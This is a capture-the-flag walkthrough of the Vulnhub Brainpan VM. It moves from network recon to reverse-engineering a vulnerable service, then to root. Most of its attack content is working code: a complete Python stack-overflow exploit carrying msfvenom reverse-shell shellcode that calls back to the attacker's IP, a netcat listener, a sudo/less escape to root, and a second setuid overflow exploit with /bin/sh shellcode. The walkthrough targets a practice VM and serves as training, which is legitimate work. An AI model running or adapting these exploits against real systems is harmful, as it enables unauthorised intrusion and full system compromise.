





## Brainpan Walkthrough ##

### Introduction ###

I rate the Vulnhub Brainpan VM an intermediate level host to gain root access.  Familiarity with exploiting x86 buffer overflows is helpful, but it's also a good starting point if you are looking 
to expand your ethical hacking repertoire to include buffer overflow exploits. All analysis and exploitation was performed
from the Kali operating system

#### Tools ####

* [Kali](https://www.kali.org/)
* [Nmap](https://nmap.org/)
* [dirb](http://dirb.sourceforge.net/about.html)
* [netcat](http://netcat.sourceforge.net/)
* [IDA Free](https://www.hex-rays.com/products/ida/support/download_freeware.shtml)
* [gdb](https://www.gnu.org/software/gdb/)
* [gdb-peda](https://github.com/longld/peda)
* [Metasploit Framework](https://www.metasploit.com/)
* [Python](https://www.python.org/)

#### Details ####

* Attacker IP: 192.168.56.1
* Target VM Type: VirtualBox
* Target IP: 192.168.56.101
* Target Network: VirtualBox Host Only

### Recon ###

As usual, with any kind of penetration test we start with the Nmap scan

```bash
nmap -A 192.168.56.101
```

The results below found two open ports, 9999 with an unknown service sitting behind it and port 10000 with python's 
SimpleHTTPServer running python 2.7.3 

```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-27 21:28 GMT
Nmap scan report for initech.com (192.168.56.101)
Host is up (0.00047s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE   VERSION
9999/tcp  open  abyss?
| fingerprint-strings: 
|   NULL: 
|     _| _| 
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_| 
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  websocket websockify (SimpleHTTP 0.6; Python 2.7.3)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.70%I=7%D=12/27%Time=5C25441D%P=x86_64-pc-linux-gnu%r(N
SF:ULL,298,"_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\n_\|_\|_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|\x20\x20\x20\x20_\|_\|_\
SF:|\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20
SF:\x20\x20\x20_\|_\|_\|\x20\x20_\|_\|_\|\x20\x20\n_\|\x20\x20\x20\x20_\|\
SF:x20\x20_\|_\|\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\
SF:x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\
SF:x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|\x20\x20\x20\x20_\
SF:|\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\
SF:x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\
SF:x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|_\|_\|\x20\
SF:x20\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20
SF:_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|_\|\x20\x20\x20\x20\x20\
SF:x20_\|_\|_\|\x20\x20_\|\x20\x20\x20\x20_\|\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20_\|\n\n\[________________________\x20WELCOME\x20TO\x20BRAINPAN\
SF:x20_________________________\]\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ENTER\
SF:x20THE\x20PASSWORD\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20>>\x20");
MAC Address: 08:00:27:25:E1:11 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10
Network Distance: 1 hop

```

OK, first port of call, lets see what we have hosted on the website.


As it turns out, not a lot.  Just an info graphic showing information on safe coding.  Viewing the page source also didn't
yield anything useful.

Now lets see if dirb can find anything useful that is not indexed from the main page. 

```bash
dirb http://192.168.56.101:10000
```

```
START_TIME: Thu Dec 27 21:34:36 2018
URL_BASE: http://192.168.56.101:10000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.101:10000/ ----
+ http://192.168.56.101:10000/bin (CODE:301|SIZE:0)                                                                                                                                    
+ http://192.168.56.101:10000/index.html (CODE:200|SIZE:215)                                                                                                                           
                                                                                                                                                                                       
-----------------
END_TIME: Thu Dec 27 21:34:42 2018
DOWNLOADED: 4612 - FOUND: 2
-----------------
```

Hmmm, interesting.  We have a bin folder, lets check it out. 


Directory listing is enabled and we have a single file present, **brainpan.exe**.  Let's go ahead and download the file

```bash
wget http://192.168.56.101:10000/bin/brainpan.exe
```  

The next step was to see if the downloaded brainpan.exe could be run locally.  As this is a Windows executable and we are running on Kali Linux, 
we need to run this under wine.  Here is the output below, it seems this is the same program that is offering the service on port 9999
on our target. 

```bash
root@system:~/Downloads# wine brainpan.exe 
[+] initializing winsock...done.
[+] server socket created.
[+] bind done on port 9999
[+] waiting for connections.
```


### Getting Shell ###

Now we could write a python script here to try and brute force the password, but as we have access to the executable, 
lets take a look at what IDA Pro makes of it. 


Above we have a section of disassembled x86 code from a successful TCP connection branch inside the main function.  On successful 
connection our brainpan program sends the connection message that you see over netcat and synchronously waits for data on the socket 
using the `recv` function.  This buffer is 1000 bytes in size which matches the max read size in recv.  Damn, no chance of exploiting
this part of the code.  The program then makes a call to a function called ``getreply(char* socketData)`` with the data received from
the socket.  Let's check it out.


What is immediately obvious from looking at the assembly code is that the password for our brainpan program is
``shitstorm\n``.  After some further analysis of our main function from earlier, I determined that the only difference you get
from supplying the correct password was an **ACCESS GRANTED** message instead of **ACCESS DENIED**.  In both cases the socket
is disconnected and you get nowhere. Damn again.

But there is hope yet.  What other pieces of information can we gain from the assembly.  The function uses the standard entry sequence 
for storing the previous function's EBP register value (4 bytes), it has a single pointer argument which contains the data 
received from the socket (4 bytes), a local variable that is 512 bytes in size, and an additional 2 local variables that are pointers.
The logic within the function prints the argument value, and then uses the `strcpy` function to duplicate the input argument 
to the 512 byte local buffer.  Once the string is replicated, it is then compared with the literal string `shitstorm\n` and the comparison
value is returned.  This behavior is a prime setup for a stack overflow exploit as input lengths are not checked.
Here is the pseudo C code for the corresponding assembly above for the `get_reply` function.

```c
int get_reply(char *input){

    char Dest[512];
    const char* Source = input;
    
    printf("[get_reply] s = [%s]\n", Source);
    strcpy(Dest,Source);
    printf("[get_reply] copied %d bytes to buffer\n", strlen(Dest));
    return strcmp(Dest, "shitstorm\n"); 
}
```   
With this in mind, we can determine that the return address will be 12 bytes beyond the end of the 512 byte Dest buffer.  
4 bytes for the input argument, 4 bytes for the old EBP and 4 bytes for the return address.  This gives us an offset of 524.
Armed with this information, we should have enough data to create an working exploit.  But before we dive into this, lets
just confirm our suspicions with gdb and gdb-peda

First we need to determine the PID of the `brainpan.exe` process that we ran earlier and attach to this process with GDB



Once we have successfully attached, we can use the awesome gdb-peda GDB Python helper library to aid in developing our exploit.
gdb-peda has the capability of generating a cyclic pattern, and later search for that pattern after an overflow occurs.  We have already
determined that we need at least 528 bytes of data to overwrite EIP.  So lets go ahead and generate a pattern of that size
using the `pattern_create` command and save in a file called pattern.  Once we have done this we continue the execution of brainpan using `c` 


Our cyclic pattern is generated, our brainpan program is running.  Now it's time to send the specially crafted pattern to
brainpan using netcat once again.

```
root@system:~/Downloads# cat pattern | nc localhost 9999
```


Boom, we have our overflow.  GDB has caught a SIGSEGV exception with the cyclic pattern showing all over the place.  We can use gdb-peda's 
`pattern_search` command to now find instances of our pattern at various registers and memory locations.  


As you can see above, the EIP register contains the data from offset 524 of our cyclic pattern.  This means our previous calculation of
524 is correct.  Yipeee.

There is one more piece of the pie missing to make a reliable exploit.  We know the offset to patch with our modified return address,
but we don't know what return address to use.  We could use the value of ESP when brainpan crashed earlier, but this can be unreliable
as the value of ESP maybe different between different iterations.  A much better approach is to return from the `get_reply` function to 
a `jmp esp` instruction.  This is where `msfpescan` comes into play.  This tool will scan a PE executable or DLL to find a valid address
that contains such an instruction.      

```
root@system:~# /usr/share/framework2/msfpescan -f /root/Downloads/brainpan.exe -j esp
0x311712f3   jmp esp
```

There she is, at address `0x311712f3`.  NOW we have everything we need for a reliable exploit.  I'm going to use `msfvenom` here to generate
the exploit shellcode in python format using the Linux reverse shell payload (our host is Linux, even though the binary is Windows).

```bash
msfvenom -a x86 -p linux/x86/shell_reverse_tcp -b \x00 -e x86/call4_dword_xor -f python LHOST=192.168.56.1 
```

Our overflow relies on our payload not containing a null character (0x00).  `strcpy` relies on the presence of a null terminator
to end the copy, so having one inside our payload will end our overflow prematurely.  I have used the `x86/call4_dword_xor` encoder to rectify 
this.

Here is the final Python exploit code that was created.  The first 524 bytes are padded with x86 NOP instructions, followed by our return address for our JMP ESP function then finally our shellcode.  
 
```python
import socket


def to_bytes(n, length, endianess='little'):
    h = '%x' % n
    s = ('0'*(len(h) % 2) + h).zfill(length*2).decode('hex')
    return s if endianess == 'big' else s[::-1]


buf = ""
buf += "\x2b\xc9\x83\xe9\xef\xe8\xff\xff\xff\xff\xc0\x5e\x81"
buf += "\x76\x0e\xa3\x5a\xf1\x1c\x83\xee\xfc\xe2\xf4\x92\x81"
buf += "\x06\xff\xf0\x19\xa2\x76\xa1\xd3\x10\xac\xc5\x97\x71"
buf += "\x8f\xfa\xea\xce\xd1\x23\x13\x88\xe5\xcb\x9a\x59\x24"
buf += "\xa2\x32\xf3\x1c\xb2\x06\x78\xfd\x13\x3c\xa1\x4d\xf0"
buf += "\xe9\xf2\x95\x42\x97\x71\x4e\xcb\x34\xde\x6f\xcb\x32"
buf += "\xde\x33\xc1\x33\x78\xff\xf1\x09\x78\xfd\x13\x51\x3c"
buf += "\x9c"

return_address = long(0x311712f3)
return_address_offset = 524

shell_code = bytearray(b'\x90' * 524) + \
             bytearray(to_bytes(return_address, 4)) + \
             buf

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 9999))

total = s.send(shell_code)
print("Sent: " + str(total))
```

Time to try our sploit.  First things first is to setup netcat with a listening port of 4444.  Port 4444 is the default when generating
the Linux reverse shell when using `msfvenom`.

```bash
nc -lvp 4444
```

Now that we have netcat waiting for the reverse shell, in a separate bash shell we can send our exploit payload.  The code above is
python 2 compatible.

```bash
python2 sploit.py
Sent: 620
```


We're in, we have shell access under the user `puck`.  A quick look around in puck's home directory indicates the presence of a script
that runs the python simple web server on port 10000 and the brainpan.exe program on 9999.  It also restarts the brainpan.exe program if 
it's no longer running (due to crash from an exploit attempt for example).  

As a rule, once I get shell I typically upgrade the console to a fully fledged TTY with bash.  This prevents accidentally killing the shell 
using Ctrl-C and for auto complete to work with TAB.  I found this neat little trick from ropnop's blog here

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#tldrcheatsheet

### Getting root (method 1) ###

Now that we have a fully functional tty, lets see what other vulnerabilities exist to allow privilege escalation.  The target is running
Ubuntu 12.10 with kernel 3.5.0-25.  A quick look using `searchsploit` didn't reveal much that could be used, no Dirty Cow or overlayfs 
kernel escalation vulnerabilities.  OK, how about sudo escalation.          

```bash
puck@brainpan:/home/puck$ sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
```

Hello, what do we have here!  We can run the `anasi_util` tool from anasi's home directory as root.  Lets see what this tool is all about

```bash
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
puck@brainpan:/home/puck$ 
```
It seems the tool has 3 actions, one of which seems to allow the manual execution of an arbitrary command maybe.  Lets give that a try.

```bash
sudo /home/anansi/bin/anansi_util manual ls
``` 



Ahh no, it's not the execution of a command, but displays the man page for that command.  And by default `man` uses the `less` command
for the purpose of displaying the page.  Those familiar with `vim` will know that you can execute external commands, well `less` has the
same capability.

> ! shell-command
>
>    Invokes a shell to run the shell-command given. A percent sign (%) in the command is replaced by the name of the current file. A pound sign (#) is replaced by the name of the previously examined file. "!!" repeats the last shell command. "!" with no shell command simply invokes a shell. On Unix systems, the shell is taken from the environment variable SHELL, or defaults to "sh". On MS-DOS and OS/2 systems, the shell is the normal command processor. 

Executing `!` on it's own will lead to a shell.  The shell will have the permissions of the parent process, which in our case will
be `less` running as root


Pwned! 

### Getting root (method 2) ###

Now that I had root using method 1, I decided to take a look at other methods of gaining root from the `puck` account.  Generally my
privilege escalation path starts with a search of vulnerable sudo configurations like above.  Following this I usually look for misconfigured
cron jobs.  An example of this could be a cron job that's running as another user/root but the program the cron is executing is world writable or 
vulnerable some other way.  This search didn't yield any results.

If that fails, I usually search for executable setuid programs that are open to exploitation.  Lets see what we can find.

```bash
find directory -perm -4000 -exec ls -ldb {} \; 2>/dev/null
``` 



Most are the usual Ubuntu setuid programs, but there is one that sticks out above the rest.  A program called `validate` that will run
under the `anansi` account.

Lets get a copy of this locally so that we can analyze the program.  We can use python's simple HTTP server for this on our remote shell.  

```bash
cd /usr/local/bin; python -m SimpleHTTPServer
``` 

Then on our host, use wget to fetch the program

```bash
wget http://192.168.56.101:8000/validate
```
Once the download completes, you can kill the python server using `Ctrl-C` (you did upgrade the shell to a full TTY right!).  

Time to get our trusty IDA Pro out once again.  



Our little validate program appears to need at least 1 argument supplied on the command line, otherwise the program's help is shown.
If this condition is satisfied then a call is made to another function called `validate` with a single argument which points to
the first command line argument passed to the program on execution. 

Lets take a look at the validate function



Here we go again, the validate function is vulnerable to an overflow exploit.  There is a `strcpy` function call that copies
our command line argument to a local buffer that is capable of holding up to 100 bytes.  No bounds checking is performed,
if our command line argument is longer that 100 bytes, it starts to overflow into adjacent local variables and finally the 
return address.  But there is a twist to the validate function, it will only copy the string if our input argument does not
contain the character 'F' (0x46).  So what that means is in addition to the usual 0x00 bad character we also have to add
0x46 as an additional bad character when generating our shellcode.  Here is the pseudo C code for the assembly code above.

```c
char* validate(const char* s){

    int i = 0;
    char* buf[100]

    do{
        if(s[i] == 'F'){
            printf("failed: %x\n",s[i]);
            exit(1);
        }
        i++;
    }while(i < strlen(s))}

    strcpy(buf,s);
    return buf;
}
```     
So by my calculations, our return address should be at offset 116.  IDA shows the top of our stack as EBP+70h, so add an additional
4 bytes for the saved EBP and that will give us the offset to the return address.  That's 74h (aka 116).  So, our padding needs 
to be 116 bytes long followed by our return address then finally our shellcode (without 0x00 or 0x46 being present).  
Last but not least, we need an address to return to.  We will use `msfelfscan` for this, which is basically the same as `msfpescan`
that we uses earlier, but for ELF binaries.

```bash
/usr/share/framework2/msfelfscan -f validate -j esp
```

No joy, no `jmp esp` instruction found within our program.  Lets try another register, the trusty eax.

```bash
/usr/share/framework2/msfelfscan -f validate -j eax
0x080484af   call eax
0x0804862b   call eax
```
Bingo, we have 2 possibilities.

Change of plans, because we don't have a usable `jmp esp` instruction and instead we are using a `call eax` we have to switch the order
of our exploit buffer around.  Our shellcode needs to come first since eax will contain the address of our copied string on the stack.
With that in mind our shell code needs to come in under 116 bytes, or we have to craft a special one that will JMP over our return address
at offset 116 prior to executing our shellcode.  Lets see what msfvenom can come up with.

```bash
msfvenom -p linux/x86/exec -b '\x00\x46'  -f python  CMD=/bin/sh 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 70 (iteration=0)
x86/shikata_ga_nai chosen with final size 70
Payload size: 70 bytes
Final size of python file: 356 bytes
buf =  ""
buf += "\xba\x4f\xc4\x9c\xf8\xda\xd6\xd9\x74\x24\xf4\x58\x33"
buf += "\xc9\xb1\x0b\x83\xe8\xfc\x31\x50\x11\x03\x50\x11\xe2"
buf += "\xba\xae\x97\xa0\xdd\x7d\xce\x38\xf0\xe2\x87\x5e\x62"
buf += "\xca\xe4\xc8\x72\x7c\x24\x6b\x1b\x12\xb3\x88\x89\x02"
buf += "\xcb\x4e\x2d\xd3\xe3\x2c\x44\xbd\xd4\xc3\xfe\x41\x7c"
buf += "\x77\x77\xa0\x4f\xf7"
``` 

We are using the `linux/x86/exec`.  This is a local shellcode as we already have local access from our first exploit.  We indicate
to msfvenom that our bad chars are 0x00 and 0x46 and that we want the output format in python.  Finally out payload needs the CMD
argument set, which is the program we want to execute as part of our shellcode.  The whole thing comes in at 70 bytes, plenty of room
to spare!

Here is our final python exploit.

```python
import os

def to_bytes(n, length, endianess='little'):
    h = '%x' % n
    s = ('0'*(len(h) % 2) + h).zfill(length*2).decode('hex')
    return s if endianess == 'big' else s[::-1]

buf =  ""
buf += "\xba\x4f\xc4\x9c\xf8\xda\xd6\xd9\x74\x24\xf4\x58\x33"
buf += "\xc9\xb1\x0b\x83\xe8\xfc\x31\x50\x11\x03\x50\x11\xe2"
buf += "\xba\xae\x97\xa0\xdd\x7d\xce\x38\xf0\xe2\x87\x5e\x62"
buf += "\xca\xe4\xc8\x72\x7c\x24\x6b\x1b\x12\xb3\x88\x89\x02"
buf += "\xcb\x4e\x2d\xd3\xe3\x2c\x44\xbd\xd4\xc3\xfe\x41\x7c"
buf += "\x77\x77\xa0\x4f\xf7"


return_address = long(0x080484af)
return_address_offset = 116

shell_code = buf + \
             b'A' * (116 - len(buf)) + \
             bytearray(to_bytes(return_address, 4))

os.execv('/usr/local/bin/validate', ["/usr/local/bin/validate", str(shell_code)])
```

The python program above generates our command line argument with our 70 byte shell code, postfixed with 'A''s up to
the return address, then the return address in little endian format.  Lets give it a try

```bash
puck@brainpan:/home/puck$ python2 validate.py 
$ id
uid=1002(puck) gid=1002(puck) euid=1001(anansi) groups=1001(anansi),1002(puck)
$ whoami
anansi
$ 
```

Success, we are now running as the effective user `anansi`.  So what extra does the anansi account give us over puck.  Not 
a lot really.  The only difference from method 1 is that we can now control the contents of the `anansi_util` tool.  So instead
of needing to launch the man page and execute a shell like we did in method 1, we could simply replace the anansi_util tool with
something that launches a shell directly, or a shell executable itself.

Thats all for now folks. 

